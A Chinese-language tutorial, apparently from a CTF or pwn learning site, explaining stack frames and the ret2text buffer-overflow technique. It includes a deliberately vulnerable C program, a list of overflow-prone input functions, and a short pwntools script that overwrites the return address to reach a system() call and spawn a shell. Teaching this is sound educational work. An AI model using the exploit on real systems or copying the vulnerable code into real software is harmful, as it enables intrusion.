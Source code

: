 ```yaml
---
title: "ret2text"
description: ""
lead: ""
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

### 栈功能

栈是进程最常用到的内存类型之一，它具有高效和简单的特点，主要用来存储函数调用信息。通常来说32位的程序一个栈单元为4个字节，而64位程序一个栈单元为8个字节，然后多个栈单元可以组成一个 `栈帧` ，栈帧的大小主要看函数信息的多少。一个栈单元通常包括以下几部分：

- 函数的参数，一般有父函数压入栈中
- 函数的返回地址，即函数执行完后ret跳转的地址
- 帧指针，即上一个栈帧的位置
- 局部变量，即函数内部声明的变量

![a5b8d65a6d18aadeec8932e39c376e6e](images/a5b8d65a6d18aadeec8932e39c376e6e.png)  

栈有三大很重要的作用，同时也体现在栈帧结构里面了：

1. 保存函数的局部变量
2. 函数调用时传递参数
3. 保存函数返回后的地址

而我们所有的栈溢出基本都是围绕着三大作用在进行，包括这里的ret2text题型。这种题型比较简单，它主要利用的是第三大功能，即函数返回地址，我们可以来看一个简单的程序的汇编代码

```cpp
void main() {
    int a = 1;
    int b = 2;
}
// gcc -m32 test.c -o test -fno-pic -fno-stack-protector -no-pie
```

生成的汇编代码为

```c
080483db <main>:
 80483db:       55                      push   ebp
 80483dc:       89 e5                   mov    ebp,esp
 80483de:       83 ec 10                sub    esp,0x10
 80483e1:       c7 45 fc 01 00 00 00    mov    DWORD PTR [ebp-0x4],0x1
 80483e8:       c7 45 f8 02 00 00 00    mov    DWORD PTR [ebp-0x8],0x2
 80483ef:       90                      nop
 80483f0:       c9                      leave  
 80483f1:       c3                      ret 
```

主要关注函数序言和函数尾声，在进入main函数之前，已经由父函数将main函数的返回地址给压入栈中，接着通过函数序言将帧指针压入栈中，并将帧指针的地址赋值给ebp，经过函数体后则进入函数尾声，尾声主要依靠 `leave` 指令，该指令相当于 `mov esp, ebp;pop ebp` ，当执行完该指令后当前栈顶就变为了main函数的返回地址，而 `ret` 指令的作用是跳转到当前栈顶存储的地址处继续执行（即修改eip为当前栈顶存储的那个值），这里也就是main函数的返回地址。

![a5821d0d5527947c6adb93598fea8cc2](images/a5821d0d5527947c6adb93598fea8cc2.png)  

### ret2text

而ret2text顾名思义，就是控制 `ret` 指令跳转的地址（即函数返回地址）为程序里现有的 `text` 段代码，以达到RCE的过程。至于如何将函数返回地址给修改就需要设计到核心理念 `溢出` ，超过容器本身大小的操作就叫溢出。对于C语言来说，每个变量的大小都是固定的（堆以外），学过的都知道C语言不允许动态设置数组的大小，只能是固定值，例如 `char a[i]` 就是错误的。这时候C语言里有些函数就会变得非常危险，这些危险函数更像是面对人而言并非对程序，比如 `gets` 函数，它是一个输入函数，可以将你输入的内容存进数组当中，并且只有当人输入 `\n` 回车的时候才会截断输入，这样的截断对人来说是合理的，但是对于数组来说一点都不合理，对于数组来说应该是不大于数组大小的输入都是合理的，当你的输入超过数组大小则应该截断。可以 `gets` 函数并没有这么智能，也就是我们可以对该数组进行溢出的操作。

常见的危险函数有：

- `gets` 函数，遇到 `\n` 截断，不保留 `\n` 字符串后面添加 `\x00`
- `fgets` 函数，遇到 `\n` 截断，保留 `\n` 并添加 `\x00`
- `scanf` 函数 `%s` 格式化字符串输入，遇到 `\x09` 、 `\x0a` 、 `\x0b` 、 `\x0c` 、 `\x0d` 、 `\x20` 截断，不保留截断字符最后添加 `\x00`
- `sscanf` 函数，和 `scanf` 差不多，多了个 `\x00` 截断
- str类函数（ `strcpy` 、 `strcat` 等）遇到 `\x00` 截断，保留 `\x00`
- `read` 函数，无截断字符，不添加字符

我们之前说过如果你在函数内部声明一个变量，那么这个就是一个局部变量，存储在栈中，而局部变量邻近的位置并不是空，而是一些其他数据，这时候如果我们通过危险函数对这个局部变量进行溢出，那么我们将可以修改其他数据的内容，只要这个溢出的字节数够多，那么我们就可以修改函数返回地址。

而现有的 `text` 段代码的话通常会是 `system("/bin/sh")` 、 `system("$0")` 、 `execve("/bin/sh", 0, 0)` 这种直接获取shell进程的函数调用

![b9b59d14a021e54f814be527a8daedf9](images/b9b59d14a021e54f814be527a8daedf9.png)  

以一个简单的程序来讲具体实现

```c
#include<stdio.h>
#include<stdlib.h>
void hint()
{
    system("$0");
}

int main()
{
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
    return 0;
}
// gcc ret2text.c -o ret2text -no-pie -fno-stack-protector
```

做ret2text记住三大步骤：

1. 找溢出点
2. 计算局部变量到函数返回地址的偏移量
3. 找getshell代码片段地址

根据危险函数列表很容易就可以找到溢出点，即scanf输入处

![dc59fe24e49ebcf598ae82f3af98d3d4](images/dc59fe24e49ebcf598ae82f3af98d3d4.png)  

其次计算偏移量，用IDA有个便捷的方法来计算偏移量，双击上图中的输入变量即v4，可以看到下图

![7caa7bd5a950c570800aaaea4993d6d0](images/7caa7bd5a950c570800aaaea4993d6d0.png)  

这里 `var_10` 即变量， `s` 即帧指针，而 `r` 则是函数返回地址，左侧的地址是相对偏移地址，右侧是每个数据占据的字节大小，可以很容易计算出变量到函数返回地址之间有16+8=24字节的偏移量

最后找getshell代码片段

![308e34110a919be37fafd2c1cb7ab18d](images/308e34110a919be37fafd2c1cb7ab18d.png)  

你可以直接用hint函数地址，也可以只用从给system函数传递参数处的指令开始，两者结果是一样的

最后我们就可以编写攻击脚本了

```python
from pwn import*    # 引入pwntools包
o = process("./ret2text")    # 执行ret2text程序并获取其I/O接口
payload = b'a'*24    # 填充变量与函数返回地址的空隙
payload += p64(0x4005d6)    # 0x4005d6是getshell代码片段地址，p64的作用是将地址打包成小端序填入栈单元
o.sendline(payload)    # 发送payload，会在结尾加 '\n'
o.interactive()    # 进入交互模式
```

![2092706e1062c14ccbabe46f32ccf796](images/2092706e1062c14ccbabe46f32ccf796.png)
